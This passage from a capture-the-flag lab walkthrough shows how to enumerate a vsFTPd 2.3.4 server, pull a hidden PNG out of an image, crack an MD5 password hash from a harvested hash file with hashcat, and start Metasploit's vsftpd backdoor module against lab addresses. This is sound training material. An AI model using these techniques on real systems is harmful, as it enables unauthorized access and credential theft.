As the response codes indicate, there is nothing we can access here that we haven't already accessed through our source code enumeration, so we will move on to the other node on this network. 

Quit Dirbuster, and proceed to the next step.

---

# 4. Probe the vsFTPd server 

### 4a. Understanding the `nmap` output

Before we plan an attack, let's first revisit the nmap output from our earlier scan of `172.17.0.3`. 

``` 
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 21 172.17.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 02:54 EST
Nmap scan report for 172.17.0.3
Host is up (0.000030s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxr--    4 1001     1001         4096 Dec 04 15:46 beary
| drwxrwxr--    3 1002     1002         4096 Dec 04 15:46 franklin
| -rwxrwxr-x    1 0        0          134881 Dec 04 02:41 key.png
|_-rwxrwxr-x    1 0        0          689793 Dec 04 02:41 lock.png
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```

I will break this down into sections:

First, we will focus on the initial port detection report.
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```
This tells us a few things. One of which, and arguably most important, is the version of the running service on this node. With the service version, we are able to research known exploits, vulnerabilities, structure, or any information that might prove useful otherwise. That will come in a later step. 

Next, the FTP server status.
```
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
```
This output is specifically the result of the `-sC` flag. Here, we are given the following information:
- `Logged in as ftp`
	- This indicates the presence of a FTP server that has enabled **anonymous login**. This is a helpful feature for public file servers that do not require log in credentials to access publicly-facing data.
		- It is also important to note that there may still be users and data placed behind a wall of credentials on the same anonymous login enabled server.
- `Control connection is plain text / Data connections will be plain text`
	- There is no service-level encryption preventing us from easily accessing what data is available through anonymous login.

Next, the connection report through anonymous login.
```
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxr--    4 1001     1001         4096 Dec 04 15:46 beary
| drwxrwxr--    3 1002     1002         4096 Dec 04 15:46 franklin
| -rwxrwxr-x    1 0        0          134881 Dec 04 02:41 key.png
|_-rwxrwxr-x    1 0        0          689793 Dec 04 02:41 lock.png
```
Here, from left to right, we see directories (the `d` preceding the permission listing), files (the `-` preceding the permission listing), and their permission listing (`-drwxrwxr--`), data ownership indications (`1001 1001`), last date of modification (`Dec 04 15:46`), and the data itself (`beary`).

Finally, the OS detection of the service.
```
Service Info: OS: Unix
```
We learn with this line that the server is Unix-based, and support Unix-like commands. Once in the server, we can type `?` to view a list of possible commands.

Now that we have a grasp of the service we are targeting, let's connect to it. 

### 4b. Connect to the vsFTPd server

Anonymous-enabled FTP servers have two common login possibilities:
- Possibility 1
	- username predefined
		- `ftp`, `anon`, `anonymous`, etc.
	- password non-essential
		- When the password of an anonymous-enabled FTP server is non-essential, any password will be accepted, with the occasional requirement that it is not empty.
- Possibility 2
	- username predefined
		- `ftp`, `anon`, `anonymous`, etc.
	- password predefined
		- Not uncommon, but also not typical of a truly anonymous-enabled FTP environment. 
		- When the password is predefined, the user must provide the password.
			- Often, this password matches the username.
			- If the server is intentionally anonymous, the credentials can likely be found in a publicly-accessible location.


Luckily for us, we do not have to do any password searching. To connect, use the following credentials:

```
user: ftp
pass: {anything}
```

``` bash
┌──(kali㉿kali)-[~]
└─$ ftp 172.17.0.3           
Connected to 172.17.0.3.
220 (vsFTPd 2.3.4)
Name (172.17.0.2:kali): ftp
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Now that we are here, let's do some looking around. 

A simple `ls` shows us the following: 
```
ftp> ls
229 Entering Extended Passive Mode (|||10214|).
150 Here comes the directory listing.
drwxrwxr--    4 1001     1001         4096 Dec 04 15:46 beary
drwxrwxr--    3 1002     1002         4096 Dec 04 15:46 franklin
-rwxrwxr-x    1 0        0          134881 Dec 04 02:41 key.png
-rwxrwxr-x    1 0        0          689793 Dec 04 02:41 lock.png
226 Directory send OK.
```

Again, we see permissions, which indicate that the only anonymously accessible files are `key.png` and `lock.png`, as the `other` permission set is e[`x`]ecutable (`r-x`). This means that anyone is able to perform commands on the file.

> Permission sets:
> (filetype)(owner)(group)(other)
> (d/-)(rwx)(rwx)(rwx)


Use `get` to download the files from the server.
```
ftp> get key.png
local: key.png remote: key.png
229 Entering Extended Passive Mode (|||55389|).
150 Opening BINARY mode data connection for key.png (134881 bytes).
100% |***********************************************************************************************************************************************************************************************|   131 KiB  702.90 MiB/s    00:00 ETA
226 Transfer complete.
134881 bytes received in 00:00 (364.39 MiB/s)

ftp> get lock.png
local: lock.png remote: lock.png
229 Entering Extended Passive Mode (|||45154|).
150 Opening BINARY mode data connection for lock.png (689793 bytes).
100% |***********************************************************************************************************************************************************************************************|   673 KiB  974.57 MiB/s    00:00 ETA
226 Transfer complete.
689793 bytes received in 00:00 (890.17 MiB/s)
```

Viewing the permission sets for the directories `beary` and `franklin`, we can see that the `other` set is not executable. Therefore, we cannot access them anonymously. 

Additionally, we cannot `cd ..` because, as executing `pwd` will tell us, this is the highest directory we can access. As an anonymous user, we are confined within this directory.

```
ftp> pwd
Remote directory: /
```

Let's see what the images have for us. Use `exit` to leave the vsFTPd server.

### 4c-a. Accessing the `.png`'s from the vsFTPd server

Using `display` -- a CLI tool provided by the `ImageMagick` package, we can view these images. Alternatively, you can use `open {path}` or `mimeopen {path}`, which will allow you to choose a image viewer to view the image with.

``` bash
┌──(kali㉿kali)-[~]
└─$ display key.png
```


```
┌──(kali㉿kali)-[~]
└─$ display lock.png
```


There is nothing unusual about these images upfront, so let's dig a little deeper.

Data holds two sets of information -- the data itself, and **metadata**.

The data is the binary inside making up the content within the file. The metadata is the information about the data. 

Furthermore, metadata itself has two forms -- metadata, and exifdata. 

Metadata, as mentioned before, is the information about the data -- think, filename, filesize, filetype, etc. Similarly, exifdata is a more specific form of metadata pertaining to image files -- camera type, picture dimensions, geolocation at which the picture was taken, etc. 

Both metadata and exifdata can be artificially modified as a (loose) form of steganography -- so, let's explore the exifdata of our images.

### 4c-b. Analyzing EXIF data with `exiftool`

Kali supports `exiftool`, which is a tool used to extract the exifdata from image files.

Let's focus on `key.png` first.

```
┌──(kali㉿kali)-[~]
└─$ exiftool key.png                                                                                                          
ExifTool Version Number         : 13.00
File Name                       : key.png
Directory                       : .
File Size                       : 135 kB
File Modification Date/Time     : 2024:12:03 21:41:17-05:00
File Access Date/Time           : 2024:12:11 19:50:41-05:00
File Inode Change Date/Time     : 2024:12:11 19:50:41-05:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 626
Image Height                    : 501
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Image Size                      : 626x501
Megapixels                      : 0.314
```

Here, we see many different categories. Of these, none seem to stand out. 

Let's check out `lock.png` and see if we can uncover any other information.

```
┌──(kali㉿kali)-[~]
└─$ exiftool lock.png 
ExifTool Version Number         : 13.00
File Name                       : lock.png
Directory                       : .
File Size                       : 690 kB
File Modification Date/Time     : 2024:12:03 21:41:17-05:00
File Access Date/Time           : 2024:12:11 19:50:43-05:00
File Inode Change Date/Time     : 2024:12:11 19:50:43-05:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 536
Image Height                    : 764
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Warning                         : [minor] Trailer data after PNG IEND chunk
Image Size                      : 536x764
Megapixels                      : 0.410
```

No description tag here. Instead, we have discovered a `Warning`, stating `"[minor] Trailer data after PNG IEND chunk"`. Without going into extensive detail, here is a short explanation:

Like data and metadata, in an extremely oversimplified way, the binary making up a file can be viewed in two separate chunks: a header, and a body. 

The header, in the case of the PNGs we are working with, is an 8-bit hexadecimal string, which the computer uses to identify the type of a file and how it should be handled. For PNGs, it is `89 50 4E 47 0D 0A 1A 0A`. You can learn more information about file signatures [here](https://en.wikipedia.org/wiki/List_of_file_signatures)

The body, on the other hand, is the data itself. 

The computer knows where the data from the original PNG ends, and in turn knows when something is there that shouldn't be.  

### 4c-c. Analyzing hexdumps with `hexdump`

To view the hex data of our PNG, we can use `hexdump`.

```
┌──(kali㉿kali)-[~]
└─$ hexdump lock.png   
0000000 5089 474e 0a0d 0a1a 0000 0d00 4849 5244
0000010 0000 1802 0000 fc02 0608 0000 a200 cc51
0000020 0084 2000 4900 4144 7854 ec5e 79bd a4b0
0000030 75e7 f7de 7f76 dcbd f66d 1019 b100 2010
...
```

That's a lot ... we can get around this by piping the output to a file and reading the first few lines.

```
┌──(kali㉿kali)-[~]
└─$ hexdump lock.png > lockdump.txt | head     
0000000 5089 474e 0a0d 0a1a 0000 0d00 4849 5244
0000010 0000 1802 0000 fc02 0608 0000 a200 cc51
0000020 0084 2000 4900 4144 7854 ec5e 79bd a4b0
0000030 75e7 f7de 7f76 dcbd f66d 1019 b100 2010
0000040 8248 2914 2452 d225 6d12 2a59 b229 2f2d
0000050 2cb1 8a27 94e5 396c 4aae ca55 4aae 2a55
0000060 fc95 5495 4afe 4e45 b25c b22a 2f23 b2e5
0000070 712b 2964 2cb6 b2d9 48bc c976 a916 248d
0000080 9048 0914 006e 1009 3004 9deb bb99 f774
0000090 9dd7 efdf f79c dbeb 0433 4049 4904 a60c
```

That's better. Still, that's not what we're looking for.

`hexdump -C {path}` will give us **canonical output**, which presents the hexadecimal in a format similar to how we see the file signature `89 50 4E 47 0D 0A 1A 0A`

```
┌──(kali㉿kali)-[~]
└─$ hexdump -C lock.png > lockdump.txt && head lockdump.txt
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 02 18 00 00 02 fc  08 06 00 00 00 a2 51 cc  |..............Q.|
00000020  84 00 00 20 00 49 44 41  54 78 5e ec bd 79 b0 a4  |... .IDATx^..y..|
00000030  e7 75 de f7 76 7f bd dc  6d f6 19 10 00 b1 10 20  |.u..v...m...... |
00000040  48 82 14 29 52 24 25 d2  12 6d 59 2a 29 b2 2d 2f  |H..)R$%..mY*).-/|
00000050  b1 2c 27 8a e5 94 6c 39  ae 4a 55 ca ae 4a 55 2a  |.,'...l9.JU..JU*|
00000060  95 fc 95 54 fe 4a 45 4e  5c b2 2a b2 23 2f e5 b2  |...T.JEN\.*.#/..|
00000070  2b 71 64 29 b6 2c d9 b2  bc 48 76 c9 16 a9 8d 24  |+qd).,...Hv....$|
00000080  48 90 14 09 6e 00 09 10  04 30 eb 9d 99 bb 74 f7  |H...n....0....t.|
00000090  d7 9d df ef 9c f7 eb db  33 04 49 40 04 49 0c a6  |........3.I@.I..|
```

Looking at the first line of output, we see our 8-bit hexadecimal string, `89 50 4e 47 0d 0a 1a 0a`. So, what is the importance of the warning? That lies in the body.

`[minor] Trailer data after PNG IEND chunk` indicates an excess of data, but where is it?

> You can learn more about PNG file structure [here](https://www.w3.org/TR/PNG-Structure.html)

```
┌──(kali㉿kali)-[~]
└─$ hexdump -C key.png > keydump.txt | grep "END"   
00020ed0  02 86 07 2d 53 00 00 00  00 49 45 4e 44 ae 42 60  |...-S....IEND.B`|
```

By parsing through the output of our hexdump, we can see that there is a single instance of "`END`" in the hexdump of `keydump.txt`, which is to be expected as there was no warning of trailing data in its exifdata. 

```
┌──(kali㉿kali)-[~]
└─$ grep "END" lockdump.txt 
0005c740  45 4e 44 ae 42 60 82 89  50 4e 47 0d 0a 1a 0a 00  |END.B`..PNG.....|
000a8670  13 63 91 c8 c1 00 00 00  00 49 45 4e 44 ae 42 60  |.c.......IEND.B`|
```

However, for `lockdump.txt`, we see something different -- there are more than one instances of "`END`", justifying the warning of trailing data.

Similarly, we can do the same for "`HDR`", which indicates the beginning of the body of a `PNG`'s data.

```
┌──(kali㉿kali)-[~]
└─$ grep "HDR" lockdump.txt
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
0005c750  00 00 0d 49 48 44 52 00  00 02 3d 00 00 02 fc 08  |...IHDR...=.....|
```

The presence of two `IHDR`'s and two `IEND`'s suggest the existence of another `PNG`, but how do we access it?

### 4c-d. Extracting embedded files using `binwalk`

Simply, `binwalk` is a tool which rebuilds data using strings of, in this case, logically related hexadecimal (i.e hexadecimal within `IHDR` and `IEND`).

> (dd -> delimiter -- in this case, pull all (`*`) possible file signatures and save them as their recognized type)

```
┌──(kali㉿kali)-[~]
└─$ binwalk --dd=.* lock.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 536 x 764, 8-bit/color RGBA, non-interlaced
41            0x29            Zlib compressed data, compressed
378695        0x5C747         PNG image, 573 x 764, 8-bit/color RGB, non-interlaced
379633        0x5CAF1         Zlib compressed data, default compression
```

Exactly as we concluded through the hexdumps, there was another PNG embedded within `lock.png`. 

In the `HEXADECIMAL` column, we will focus on two things: `0x0` and `0x5C747`. `0x0` is, and will always be the original file we are attempting to extract from. `0x5C747`, in this case, is the hexadecimal representation of our image. 

Use `display` to view the extracted image found in `_lock.png.extracted`, which was created by `binwalk`.

### 4c-e. Accessing the extracted `PNG`

```
┌──(kali㉿kali)-[~]
└─$ display _lock.png.extracted/5C747
```


Awesome! It seems as if we've found login credentials which, judging by the password `FTPranklin`, are used to access the FTP server.

Let's do that.

---

# 5. FTP server

## 5a. Gaining access to the FTP server

Login to the FTP server using the following credentials:
```
username: franklin
password: FTPranklin
```

```┌──(kali㉿kali)-[~]
└─$ ftp 172.17.0.3
Connected to 172.17.0.3.
220 (vsFTPd 2.3.4)
Name (172.17.0.3:kali): franklin
331 Please specify the password.
Password: 
'230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Great! Let's look around.

> IMPORTANT: You'll see a `hash.txt` in the root directory -- don't look at it. I forgot to remove it!

```
ftp> ls
229 Entering Extended Passive Mode (|||10694|).
150 Here comes the directory listing.
drwxrwxr--    5 1002     1002         4096 Dec 04 15:46 home
226 Directory send OK.
ftp> cd home
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||23614|).
150 Here comes the directory listing.
drwxrwxr--    2 1002     1002         4096 Dec 04 15:46 desktop
drwxrwxr--    2 1002     1002         4096 Dec 04 15:46 documents
226 Directory send OK.
ftp> cd desktop
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||8195|).
150 Here comes the directory listing.
-rwxrwxr--    1 1002     1002          355 Dec 04 15:46 notes.txt
-rwxrwxr--    1 1002     1002          307 Dec 04 15:46 todo.txt
226 Directory send OK.
ftp> cd ../documents
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||23473|).
150 Here comes the directory listing.
-rwxrwxr--    1 1002     1002          400 Dec 04 15:46 draft.txt
-rwxrwxr--    1 1002     1002          695 Dec 04 15:46 journal.txt
-rwxrwxr--    1 1002     1002          232 Dec 04 15:46 shopping_list.txt
ftp>
```

Unfortunately, there is nothing useful within this directory.

Except, what if it's hidden?

Using `-la` with `ls`, we can view files and directories hidden by beginning their name with a period `.`.

```
ftp> ls -la
229 Entering Extended Passive Mode (|||40262|).
150 Here comes the directory listing.
drwxrwxr--    5 1002     1002         4096 Dec 04 15:46 .
drwxrwxr--    3 1002     1002         4096 Dec 04 15:46 ..
drwxrwxr--    2 1002     1002         4096 Dec 04 15:46 .hidden
drwxrwxr--    2 1002     1002         4096 Dec 04 15:46 desktop
drwxrwxr--    2 1002     1002         4096 Dec 04 15:46 documents
226 Directory send OK.
ftp> cd .hidden
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||15243|).
150 Here comes the directory listing.
drwxrwxr--    2 1002     1002         4096 Dec 04 15:46 .
drwxrwxr--    5 1002     1002         4096 Dec 04 15:46 ..
-rwxrwxr--    1 1002     1002          293 Dec 04 15:46 .quiet
226 Directory send OK.
```

In the `home` directory, we have found the hidden directory `.hidden`, containing the hidden file `.quiet`.

Let's analyze that.

## 5b. Analyzing `.quiet`

```
ftp> get .quiet
local: .quiet remote: .quiet
229 Entering Extended Passive Mode (|||34716|).
150 Opening BINARY mode data connection for .quiet (293 bytes).
100% |******************************************************|   293        1.08 MiB/s    00:00 ETA
226 Transfer complete.
293 bytes received in 00:00 (645.89 KiB/s)
```

After getting it from the server, we can view its contents.

```
┌──(kali㉿kali)-[~]
└─$ cat .quiet                         
youtube:franky:73e77203ad07cd155aa0b9e8e45100a2049006b6
gmail:franklin01@gmail.com:9bf0525826f868a09a715836f2e7c62a6a18e614
svssl:franklin:9a9f75c7bf95c80832d02d572059a4d0
steam:franklyHIM:b1ccd9b1cf8c20a5d028d6ea74ff2455ccb17e52
ftp:franklin:2597fa0ba3c99e391c928236e4c6801ccae8087c
```

It looks like `.quiet` contained password hashes. As the password hashes seem relatively simple, using `hash-identifier`, we can try to identify these hashes.

As we found on the HTTP server, we are dealing with a login portal: "So Super Very Secure Login Page" -- as such, "svssl" is of interest here.

```
┌──(kali㉿kali)-[~]
└─$ hash-identifier "9a9f75c7bf95c80832d02d572059a4d0"
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
--------------------------------------------------
 HASH:  
```

Awesome! Our hash is recognized as an MD5 hash -- luckily, it seems unsalted. This will be easy!

---

# 6. Password cracking using Hashcat

## 6a-a. Getting the `rockyou` wordlist

Like the Dirbuster attack earlier, we are going to be using a dictionary attack. So, we will need a list of or a single hash (we'll be using a single hash), a wordlist to iterate, and possibly a ruleset.

For this attack, we will use a dictionary commonly utilized in CTFs -- `rockyou.txt`.

Thankfully, Kali saves us the trouble of importing this wordlist ourselves. 

```
┌──(kali㉿kali)-[~]
└─$ sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
```

>-d -> decompress

>-k -> keep original archive

```
┌──(kali㉿kali)-[~]
└─$ sudo mv /usr/share/wordlists/rockyou.txt .
```

We'll move this to our current working directory (`.`)

Now that we have made it accessible, we need the hash.

## 6a-b. Getting the MD5 hash

Since we're only interested in a single hash from the list of hashes, we can do a simple copy and paste (hash from the output of the list -> hashcat command)

> On Debian-based systems within the terminal: copy [CTRL+SHIFT+C], paste [CTRL+SHIFT+P]

```
┌──(kali㉿kali)-[~]
└─$ cat quiet
youtube:franky:73e77203ad07cd155aa0b9e8e45100a2049006b6
gmail:franklin01@gmail.com:9bf0525826f868a09a715836f2e7c62a6a18e614
svssl:franklin:9a9f75c7bf95c80832d02d572059a4d0
steam:franklyHIM:b1ccd9b1cf8c20a5d028d6ea74ff2455ccb17e52
ftp:franklin:2597fa0ba3c99e391c928236e4c6801ccae8087c
```

Here, we'll grab the `svssl` hash -- `9a9f75c7bf95c80832d02d572059a4d0`

## 6b-a. Cracking the MD5 hash - getting arguments

Now, we are ready to use hashcat.

For this attack, there are two arguments we need to configure -- `-m` and `-a`.

We can learn more about these using `--help`.

```
┌──(kali㉿kali)-[~]
└─$ hashcat --help | grep -w -- "-a"
 -a, --attack-mode              | Num  | Attack-mode, see references below                    | -a 3
  Wordlist         | $P$   | hashcat -a 0 -m 400 example400.hash example.dict
  Wordlist + Rules | MD5   | hashcat -a 0 -m 0 example0.hash example.dict -r rules/best64.rule
  Brute-Force      | MD5   | hashcat -a 3 -m 0 example0.hash ?a?a?a?a?a?a
  Combinator       | MD5   | hashcat -a 1 -m 0 example0.hash example.dict example.dict
  Association      | $1$   | hashcat -a 9 -m 500 example500.hash 1word.dict -r rules/best64.rule

┌──(kali㉿kali)-[~]
└─$ hashcat --help | grep -w -- "-m"
 -m, --hash-type                | Num  | Hash-type, references below (otherwise autodetect)   | -m 1000
  Wordlist         | $P$   | hashcat -a 0 -m 400 example400.hash example.dict
  Wordlist + Rules | MD5   | hashcat -a 0 -m 0 example0.hash example.dict -r rules/best64.rule
  Brute-Force      | MD5   | hashcat -a 3 -m 0 example0.hash ?a?a?a?a?a?a
  Combinator       | MD5   | hashcat -a 1 -m 0 example0.hash example.dict example.dict
  Association      | $1$   | hashcat -a 9 -m 500 example500.hash 1word.dict -r rules/best64.rule
```

As we see, we need to know the attack mode and the hash type. 

Starting with the hash type `-m`, we can find this with another `--help` search. 

```
┌──(kali㉿kali)-[~]
└─$ hashcat --help | grep -w "MD5"   
      0 | MD5                                                        | Raw Hash
	...
```

On the left, we see the hash code we will be passing to `-m`. On the right is the hash type it is representing.

Next, we will need the attack type. 

Again, `hashcat --help` can be used here. 

Scrolling up, we can see a list of `- [ Attack Modes ] -`

```
- [ Attack Modes ] -

  # | Mode
 ===+======
  0 | Straight
  1 | Combination
  3 | Brute-force
  6 | Hybrid Wordlist + Mask
  7 | Hybrid Mask + Wordlist
  9 | Association
```

We will be using mode `0`, `straight`, which represents a wordlist attack.

## 6b-b. Cracking the MD5 hash

At this point, we have decided our attack mode, hash type, wordlist, and defined the hash we are going to be targeting. 

Let's crack it.

```
┌──(kali㉿kali)-[~]
└─$ hashcat -m 0 -a 0 "9a9f75c7bf95c80832d02d572059a4d0" rockyou.txt -o cracked.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 5 5600X 6-Core Processor, 2918/5900 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 9a9f75c7bf95c80832d02d572059a4d0
Time.Started.....: Fri Dec 20 00:39:30 2024 (0 secs)
Time.Estimated...: Fri Dec 20 00:39:30 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6594.1 kH/s (0.08ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1796096/14344385 (12.52%)
Rejected.........: 0/1796096 (0.00%)
Restore.Point....: 1794048/14344385 (12.51%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: freckles16 -> founda
Hardware.Mon.#1..: Util: 25%

Started: Fri Dec 20 00:39:12 2024
Stopped: Fri Dec 20 00:39:31 2024
```

This shouldn't take too long. I've added an additional argument, `-o`, which specifies an output path for the cracked credentials. If this path is not present, hashcat will create it (given it has permissions to do so).

## 6b-c. Accessing the credentials

There are many ways to view cracked credentials with hashcat. We've chosen to specify an output file, which we can open as we would any other text file.

```
┌──(kali㉿kali)-[~]
└─$ cat cracked.txt 
9a9f75c7bf95c80832d02d572059a4d0:fr4nkl1n
```

Great. Let's try this on the login portal.

---

# 7. Accessing SVSSL

If needed, navigate to `http://172.17.0.2:80/`.

Using the following credentials,

```
franklin
fr4nkl1n
```

We are given our first flag. Save this for later!

> Do not close the tab, as you will need it for flag verification after the event.

---

Still, we have yet to find the credentials to the other account.

# 8. Metasploit and vsFTPd

From our scan earlier, thanks to the `-sV` flag, we know we are dealing with a vsFTPd server running version 2.3.4:

``` 
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 21 172.17.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 02:54 EST
Nmap scan report for 172.17.0.3
Host is up (0.000030s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxr--    4 1001     1001         4096 Dec 04 15:46 beary
| drwxrwxr--    3 1002     1002         4096 Dec 04 15:46 franklin
| -rwxrwxr-x    1 0        0          134881 Dec 04 02:41 key.png
|_-rwxrwxr-x    1 0        0          689793 Dec 04 02:41 lock.png
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```

We can search for known vulnerabilities to take advantage of.

## 8a. Searching for vulnerabilities using `searchsploit`

`Metasploit` -- a framework designed for the storage, retrieval, and execution of common exploits.

A tool provided by Kali, `searchsploit`, helps us easily identify vulnerabilities supported by metasploit.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit vsftpd 2.3.4                                                
--- 
Exploit Title |  Path
vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) | unix/remote/17491.rb
---
Shellcodes: No Results
```

Perfect -- metasploit supports a backdoor command execution exploit. If successful, this will allow us root level access into the FTP server, allowing us to freely traverse the system. 

# 8b. Using `metasploit`

## 8b-a. Load the `metasploit` console

Using `msfconsole`, we can access `metasploit`.

```
┌──(kali㉿kali)-[~]
└─$ msfconsole
...
msf6 > 
```

> In between `msfconsole` and `msf# >` you will see text indicating it's starting up

## 8b-b. Find the exploit path

Similar to before, we can query the metasploit database for known vsftpd 2.3.4 exploits -- this time, we'll see a path containing the exploit we'll use.

```
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

## 8b-c. Select the exploit path

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor 
[*] No payload configured, defaulting to cmd/unix/interact
```

`No payload configured` is no a concern to us for this specific attack.

## 8b-d. Configure the exploit

Using `options`, we can see which settings are Required (`yes`), and which are not (`no`). 

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

